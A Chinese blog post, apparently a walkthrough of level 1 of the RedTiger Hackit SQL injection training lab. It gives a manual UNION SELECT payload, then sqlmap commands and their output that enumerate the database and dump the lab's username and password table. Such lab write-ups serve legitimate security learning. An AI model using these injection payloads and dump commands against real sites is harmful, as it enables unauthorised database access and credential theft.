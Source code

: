 ```yaml
---
layout: post
category: "hack"
title: "RedTigers-Hackit[第一关]"
tags: ["hack"]
---
```


#### 1.安装扩展
- RedTigers-Hackit是一个训练SQLi（SQL注入漏洞）
- <https://redtiger.labs.overthewire.org/> 
- 闲的没事儿，搜了一下，网上有答案 
- 第一关答案:
- https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users
- 好吧，这不是我想要的结果
- 既然是sql注入用sqlmap吧，在liunx下习惯了命令行
- git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
- 直接python sqlmap.py -xxxxxx 就可以使用


#### 2.其实我就想知它怎么来的：
```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1"
```
得到如下所示，存在注入点，union注入，4列字段：

```
sqlmap identified the following injection points with a total of 60 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[21:59:54] [INFO] testing MySQL
[21:59:59] [INFO] confirming MySQL
[22:00:08] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.0
[22:00:08] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'
```

还是猜一下库名吧：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" --current-db
```

```
[*] starting at 22:18:29

[22:18:29] [INFO] resuming back-end DBMS 'mysql'
[22:18:29] [INFO] testing connection to the target URL
[22:18:35] [INFO] heuristics detected web page charset 'ascii'
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 9340=9340

    Type: UNION query
    Title: MySQL UNION query (75) - 4 columns
    Payload: cat=1 UNION ALL SELECT 75,75,CONCAT(0x7178767871,0x555a4759637151794e4e,0x71626b6271),75#
---
[22:18:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL 5
[22:18:39] [INFO] fetching current database
current database:    'hackit'
[22:18:44] [INFO] fetched data logged to text files under '/root/.sqlmap/output/redtiger.labs.overthewire.org'

```
表名页面有提示，省掉一步：
Tablename: level1_users 

猜列名：

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" --columns
```
得到结果，其实到这里就不用再猜了，重要的两个字段出来了

```
[22:23:13] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 12
[22:23:20] [CRITICAL] maximum number of used threads is 10 avoiding potential connection issues
please enter number of threads? [Enter for 1 (current)] 10
[22:23:25] [INFO] starting 10 threads
[22:23:41] [INFO] retrieved: username
[22:23:42] [INFO] retrieved: id
[22:27:05] [INFO] retrieved: password
[22:47:24] [INFO] tried 1245/2526 items (49%)
[22:47:27] [CRITICAL] connection dropped or unknown HTTP status code received. Try to force the HTTP User-Agent header with option '--user-agent' or switch '--random-agent'. sqlmap is going to retry the request
[22:47:27] [WARNING] if the problem persists please try to lower the number of used threads (option '--threads')
[22:48:14] [INFO] tried 1275/2526 items (50%)
```

看用户名和密码

```
[root@localhost sqlmap-dev]# python sqlmap.py -u "https://redtiger.labs.overthewire.org/level1.php?cat=1" -D "hackit" -T "level1_users" -C "username,password" --dump

```

两个字段内容

```
[22:52:35] [WARNING] unable to retrieve column names for table 'level1_users' in database 'hackit'
[22:52:35] [INFO] fetching entries of column(s) 'password, username' for table 'level1_users' in database 'hackit'
[22:52:44] [INFO] analyzing table dump for possible password hashes
Database: hackit
Table: level1_users
[1 entry]
+----------+-------------+
| username | password    |
+----------+-------------+
| Hornoxe  | thatwaseasy |
+----------+-------------+

```
在网站第一关输入后，过关。

>
- 请尊重本人劳动成功，可以随意转载但保留以下信息 
- 作者：岁月经年 
- 时间：2015年5月
